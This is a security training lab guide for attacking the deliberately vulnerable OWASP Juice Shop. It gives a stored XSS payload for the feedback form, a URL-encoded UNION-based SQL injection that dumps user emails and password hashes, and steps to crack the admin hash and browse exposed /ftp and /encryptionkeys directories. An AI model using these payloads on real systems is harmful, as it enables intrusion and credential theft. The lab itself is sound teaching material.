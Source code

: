 Lab 3 – Hacking the Juice Shop
------------------------------

Objective
~~~~~~~~~

- Demonstrate the vulnerabilities in the Juice Shop web application.

- Demonstrate a cross site scripting (XSS) vulnerability.

- Demonstrate a SQL injection vulnerability.

- Demonstrate a privilege escalation vulnerability.

- Demonstrate an unauthorized directory listing.

Task – Demonstrate a server side cross site scripting (XSS) vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Visit the About page so you can see that it hasn't been hacked yet by clicking on the hamburger menu in the top left corner of the page:

    .. image:: /_static/class9/hamburger_menu.png

and then click on **About Us**.

    .. image:: /_static/class9/aboutus_menu.png

You should see a bunch of lorem ipsum text and a slider of customer feedback entries retrieved from the database.

    .. image:: /_static/class9/aboutus_page.png

We will insert our cross site scripting hack into the database via the Customer Feedback form. Click on the hamburger menu again and then click on **Customer Feedback**.

    .. image:: /_static/class9/customer_feedback.png

In the comment area paste the following:

.. code-block:: none

    <<script>FUD</script>iframe allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&auto_play=true>

Then, choose any amount of stars for the rating and answer the math challenge and then click Submit.

    .. image:: /_static/class9/xss_cust_feedback_form.png

Now head back over to the About page by clicking on the hamburger menu and then clicking on About. You should hear a jingle about the Juice Shop.

Task – Demonstrate a SQL injection vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Copy and paste the following URI after the FQDN of the Juice Shop:


.. code-block:: none
   
    /rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The location bar should look something like this:

.. code-block:: none

    https://ba3eff45-2f23-49ab-8122-2e3bdc1ed9ad.access.udf.f5.com/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The result should be a list of all the users in the database including their hashed passwords.

    .. image:: /_static/class9/juice_shop_users.png


Task - Demonstrate a privilege escalation vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Use a rainbow lookup table to expose the admin user's password by navigating to https://crackstation.net/ and entering the hash


    .. image:: /_static/class9/juice_shop_crackstation.png


Task - Demonstrate an unauthorized directory listing
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Navigate to /ftp to expose an unwanted directory listing

    .. image:: /_static/class9/juice_shop_ftp.png

Navigate to /encryptionkeys to expose an unwanted directory listing

    .. image:: /_static/class9/juice_shop_encryptionkeys.png


